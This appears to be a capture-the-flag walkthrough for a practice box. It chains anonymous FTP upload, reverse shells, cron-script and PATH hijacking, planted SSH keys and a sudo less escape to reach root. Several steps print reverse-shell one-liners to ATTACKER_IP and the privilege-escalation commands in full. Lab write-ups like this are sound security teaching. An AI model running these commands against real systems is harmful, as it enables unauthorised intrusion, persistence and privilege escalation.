Question1
nmap -sS TARGET_IP yields port 21(ftp), 22(ssh).

Doing ftp TARGET_IP and logging in as anonymous, we can see that we can upload any file to /incoming.
So we upload shell.sh containing bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1 to it. One thing of note here is that
the server has a filter which doesn't allow slashes in the path of the file to upload, meaning that something like
put /home/user/shell.sh doesn't work.

Then we get the reverse shell as recon_user using nc -lvnp 4444 on the attacker machine.
Question2

To get pspy64 into the server, we have to gain ssh access to the server.
We generate a private, public ssh key pair with ssh-keygen -f recon_rsa -C THM on the attacker machine.
And then create the file /home/recon_user/.ssh/authorized_keys in the target and populate it with the content of
recon_rsa.pub.

Now we can ssh into the server as recon_user via ssh -i recon_rsa recon_user@TARGET_IP.

We do scp -i recon_rsa pspy64 recon_user@TARGET_IP:/tmp to send pspy64 to the target server.
I've tried uploading pspy64 via ftp, but that caused the ftp user to own the executable, making it impossible for
other users to execute it.

And then we change its permissions so everybody can use it with chmod 777 /tmp/pspy64.
Using pspy64, we notice that /opt/dev/backup.sh is being called as dev_user but is writable by
recon_user. So we append bash -i >& /dev/tcp/ATTACKER_IP/5555 0>&1 to it and obtain a reverse shell
as dev_user using nc -lvnp 5555.

Question3
Checking the results of pspy64, we realize that healthcheck.service keeps getting run with UID=1003.
So if we check its config file at /etc/systemd/system/healthcheck.service, we can see that it is executing
/usr/local/bin/healthcheck and the PATH variable has /opt/dev/bin prepended to it,
meaning that the ps being called at /usr/local/bin/healthcheck is actually /opt/dev/bin/ps.

So we can change /opt/dev/bin/ps to have bash -i >& /dev/tcp/ATTACKER_IP/6666 0>&1 and get the reverse shell
of monitor_user.

Question4
Running sudo -l as monitor_user reveals that they can execute /usr/local/bin/deploy.sh as
ops_user.

And checking deploy_helper.sh mentioned in deploy.sh, we can see that monitor_user has write access
to it. So we append bash -i >& /dev/tcp/ATTACKER_IP/7777 0>&1 to it and run
sudo -u ops_user /usr/local/bin/deploy.sh, catching the reverse shell with nc -lvnp 7777 on the attacker machine.

Question5
Doing sudo -l as ops_user reveals that it can run less as root.

This means that if we can execute shell commands in the prompt of less, we can execute /bin/bash and get the root shell.
Unfortunately, we can't get access to the prompt in a simple reverse shell, as it behaves more like cat in this limited environment.
So we have to get ssh access as ops_user.
We create the file /home/ops_user/.ssh/authorized_keys and populate it with the content of recon_rsa.pub,
just like we did for recon_user. This allows us to ssh into the server as ops_user via
ssh -i recon_rsa ops_user@TARGET_IP and do sudo less ANY_FILE which gives us access to
less's command prompt. There we can type !/bin/bash to get the root shell to read the flag.

Here is what happens after we get the root shell.

Another method of solving question 5 is by abusing the fact that every user's flag thus far has been called flag.txt
and has been located in its owner's home directory. From this we can assume that the path to root's flag is
/root/flag.txt and type sudo less /root/flag.txt to get the flag without fully escalating user privilege.